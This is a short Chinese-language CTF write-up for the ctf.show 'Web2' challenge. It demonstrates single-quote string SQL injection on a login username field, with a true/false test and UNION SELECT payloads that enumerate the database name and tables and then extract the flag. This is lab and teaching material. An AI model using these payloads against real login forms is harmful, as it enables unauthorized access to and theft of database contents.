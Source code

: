```yaml
---
title: "Web2  @WEB"
date: 2023-07-22
draft: false
author: "W"
tags: ["web","ctf.show"]
---
```


 经典SQL注入

先使用万能密码测试对用户命参数进行sql注入测试，查看是否有回显

```sql
a' or true #（恒成立）/ a' or false # （恒不成立）
```

![](/ctf.show/7/1.webp)

通过测试确定可以用户名模块可以通过参数来控制SQL语句的执行结果，所以存在SQL注入漏洞，且注入为单引号字符型注入，能直接回显所以使用 联合注入。

联合注入：

```sql
1、查询数据库名称:
a' union select 1,database(),3 #
```

![](/ctf.show/7/2.webp)

```sql
2、查询到数据库名称后查看数据库中的表
a' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='web2'),3 #
```

![](/ctf.show/7/3.webp)

```sql
3、查询到表名后查看表中的内容，成功拿到flag
a' union select 1,(select flag from flag),3 #
```

![](/ctf.show/7/4.webp)





